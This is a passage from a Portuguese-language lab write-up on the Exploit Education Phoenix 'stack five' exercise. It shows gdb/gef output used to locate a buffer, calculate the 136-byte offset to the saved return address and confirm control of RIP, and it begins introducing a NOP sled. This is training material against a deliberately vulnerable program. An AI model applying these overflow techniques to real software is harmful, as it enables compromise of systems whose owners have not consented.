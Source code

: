 Você tambem acha que tem uma falta de AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ?? hehehe :P

Então vamos avançar para próxima intrução (step: `s`) :D
![](https://raw.githubusercontent.com/0xturazzi/Writeups/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/img/stack%20five/gef_after_gets_0.png)

Ah, assim que eu gosto XD

Isso quer dizer que aquele pointer dos argumentos agora aponta para os As, ne? Sim! :D
```
gef> x/s 0x00007fffffffe5b0              -> x/s é o comando para printar strings
0x7fffffffe5b0:	'A' <repete 140 vezes>
``` 
Então nos ja temos o endereço dos nossos As :D ... que em breve serão codigo :D

Mas agora precisamos saber com presição quantos As até o RIP, `info frame` vai nos ajudar com isso:
```
gef> info frame
Stack level 0, frame at 0x7fffffffe640:
 rip = 0x4005a1 in start_level; saved rip = 0x4005c7
 called by frame at 0x7fffffffe610
 Arglist at 0x7fffffffe630, args: 
 Locals at 0x7fffffffe630, Previous frame's sp is 0x7fffffffe640
 Saved registers:
  rbp at 0x7fffffffe630, rip at 0x7fffffffe638
```

RIP em: 0x7fffffffe638
```
kali@kali:~$ python3
>>> 0x7fffffffe638 - 0x00007fffffffe5b0
136
```

Para confirmar isso, vamos rodar com 136 As + BBBB

![](https://raw.githubusercontent.com/0xturazzi/Writeups/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/img/stack%20five/gef_136A_BBBB.png)

## NOP sled
Entretando, como nada pode ser simples nesse mundo do desenvolvimento de exploits, nós não conseguimos saber com precisão que o buffer vai estar lá :(

Isso ocorre pois as envs são alocadas na stack. E elas variam muito, por exemplo, só de mudar o local de onde o programa esta sendo executado quebraria o nosso exploit.
> Dica: O gef pode nos ajudar a encontra-las
![](https://raw.githubusercontent.com/0xturazzi/Writeups/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/img/stack%20five/gef_envs_1.png)

Por exemplo:

![](https://raw.githubusercontent.com/0xturazzi/Writeups/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/img/stack%20five/gef_envs_0.png)

Para remediar isso, podemos usar um NOP sled (ou NOP slide) ! :D

NOP significa "**No** **OP**eration" (**N**enhuma **OP**eração) ! é uma instrução que não faz nada :D
